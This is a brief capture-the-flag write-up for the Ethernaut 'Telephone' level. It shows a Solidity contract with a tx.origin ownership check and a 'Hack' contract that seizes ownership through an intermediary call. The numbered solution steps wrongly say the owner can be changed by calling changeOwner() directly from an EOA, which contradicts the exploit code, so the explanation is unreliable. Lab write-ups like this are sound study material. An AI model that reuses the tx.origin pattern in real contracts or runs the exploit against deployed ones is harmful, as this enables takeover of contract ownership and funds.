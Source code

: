 ### Type - Beyond the Console

*** 

# Claim ownership of the contract below to complete this level.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

# Solution
1. Get a new Instance of the contract
2. The idea is that any EOA calling the changeOwner() which is not the orignal owner(It's the externally owned account (EOA) that initiated the transaction) can change the ownership
3. In order to change the ownership, one can call the changeOwner() from their EOA and claim ownership

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}

contract Hack {
  Telephone private immutable target;
  constructor (address _target){
    target = Telephone(_target);
  }

  function hackOwner(address _target) public  {
    target.changeOwner(_target);
  }

}
```

# Explanation
[How to Solve the Ethernaut Game's Level 4: Telephone](https://hackernoon.com/how-to-solve-the-ethernaut-games-level-4-telephone)
